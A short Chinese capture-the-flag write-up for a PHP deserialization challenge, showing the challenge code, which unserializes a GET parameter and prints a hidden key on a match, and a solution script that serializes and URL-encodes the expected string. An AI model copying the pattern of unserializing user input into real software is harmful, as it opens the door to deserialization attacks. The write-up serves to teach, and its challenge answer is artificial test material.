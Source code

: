 
# 34074 反序列化漏洞


![upload successful](./images/pasted-804.png)
```php
<?php
error_reporting(0);
include \"key4.php\";
$TEMP = \"Whatever is worth doing is worth doing well.\";
$str = $_GET['str'];
if (unserialize($str) === $TEMP)
{
    echo \"$key4\";
}
show_source(__FILE__);
```
这题代码不难看出要GET传一个字符串，反序列化之后要等于`Whatever is worth doing is worth doing well.`
我们只需要构造代码：
```php
<?php
$a=urlencode(serialize(\"Whatever is worth doing is worth doing well.\"));
echo $a;
?>
```